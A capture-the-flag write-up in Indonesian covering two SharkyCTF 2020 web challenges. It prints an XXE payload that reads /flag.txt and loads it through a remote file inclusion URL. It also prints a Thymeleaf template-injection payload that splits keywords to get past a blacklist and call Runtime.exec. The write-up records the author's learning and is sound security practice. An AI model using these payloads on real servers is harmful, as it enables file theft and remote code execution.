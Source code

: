 # SharkyCTF 2020
It's like a half year ago since my last writeup in my Github. Please enjoy my writeup of SharkyCTF after playing with HCS (Heroes Cyber Security).

## XXEternalXX
**Deskripsi**
> One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.

> [xxexternalxx.sharkyctf.xyz](xxexternalxx.sharkyctf.xyz)

**Pembahasan**
Dari judulnya bisa ditebak ini akan menggunakan XXE (**XXE**ternal). Maka coba kita cek :

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/SharkyCTF_2020/xxeternalxx/1.png)

Saat mengecek link yang diarahkan oleh web, ternyata XML yang diberikan berasal dari include dari web tersebut [http://xxexternalxx.sharkyctf.xyz/?xml=data.xml](http://xxexternalxx.sharkyctf.xyz/?xml=data.xml). Saya mencurigai adanya vuln RFI (Remote File Inclusion) disini, sehingga saya membuat payload di [https://gist.githubusercontent.com/kerupuksambel/6b8a876ce9fb3b9ebf285af9b15a57b3/raw/38db37b86c3296d078743a998a8793b85a8eeaf5/exploit](gist) ini.

```
<?xml version="1.0" ?>
<!DOCTYPE data [
    <!ENTITY amber SYSTEM "file:///flag.txt">
]>

<root>
  <data>
    &amber;
  </data>
</root>

```

Saya menggunakan payload yang bersumber dari [https://github.com/RihaMaheshwari/XXE-Injection-Payloads](RihaMaheshwari) dan memodifikasinya sedikit agar strukturnya sesuai dengan data.xml dari web. Lalu, include payload lewat parameter GET dengan memanfaatkan vuln RFI.

[http://xxexternalxx.sharkyctf.xyz/?xml=https://gist.githubusercontent.com/kerupuksambel/6b8a876ce9fb3b9ebf285af9b15a57b3/raw/38db37b86c3296d078743a998a8793b85a8eeaf5/exploit](http://xxexternalxx.sharkyctf.xyz/?xml=https://gist.githubusercontent.com/kerupuksambel/6b8a876ce9fb3b9ebf285af9b15a57b3/raw/38db37b86c3296d078743a998a8793b85a8eeaf5/exploit)

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/SharkyCTF_2020/xxeternalxx/flag.png)

Flag : `shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}`

## WebFugu

**Deskripsi**
> A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

> Creator: MasterFox

> [http://webfugu.sharkyctf.xyz](http://webfugu.sharkyctf.xyz)

**Pembahasan**
*Dikarenakan sejauh ini platform untuk WebFugu sedang down, saya tidak bisa menginclude flag dan screenshot di PoC saya. Mohon maaf~*

Pada awalnya saya sempat kebingungan dengan WebFugu ini, namun salah seorang teman di HCS berhasil mendapatkan vulnerabilitynya yaitu berupa SSTI di Thymeleaf di `/process` yang digunakan oleh Webfugu. Terburu-buru ingin mendapat flag, saya langsung berusaha mencari celah RCE untuk mendapat flag yang mungkin didapat di root. Pertama saya membuat payload untuk menciptakan shell berupa memanggil `Java.lang.Runtime` untuk memanggil fungsi getRuntime dan memanggil perintah shell. Namun ternyata keyword `Java` dan `Runtime` diblacklist sehingga saya harus memanggil cara lain.

Stuck berjam-jam, akhirnya dengan link [https://stackoverflow.com/questions/30933776/display-a-variable-inside-another-with-thymeleaf](ini), saya bisa membuat payload yang (harusnya) berfungsi untuk memanggil perintah shell. Payload yang saya gunakan adalah 

`<div th:text=${__('T(ja'+'va.lang.Runt'+'ime).getRun'+'time().exec("ls")')__}></div>`

Namun saat dijalankan, ternyata masih error juga. Agak frustasi, saya menghubungi panitia SharkyCTF di Discord dan secara cukup mengejutkan, ia mengatakan bahwa kita tidak perlu melakukan RCE untuk mendapat flag.

:o

Setelah lelah dengan mencari celah yang tersedia, saya iseng mencoba `{{flag}}`. Dan ternyata, diketahui bahwa `{{flag}}` memang mengandung suatu variable valid dan didapati bahwa di variable tersebut ada satu attribute `content`. Mencoba `{{flag.content}}` akan mengembalikan flagnya.

Flag : -

~~AAAAAAAAAAAAAAAAAAAAAAAA kadung stres a~~


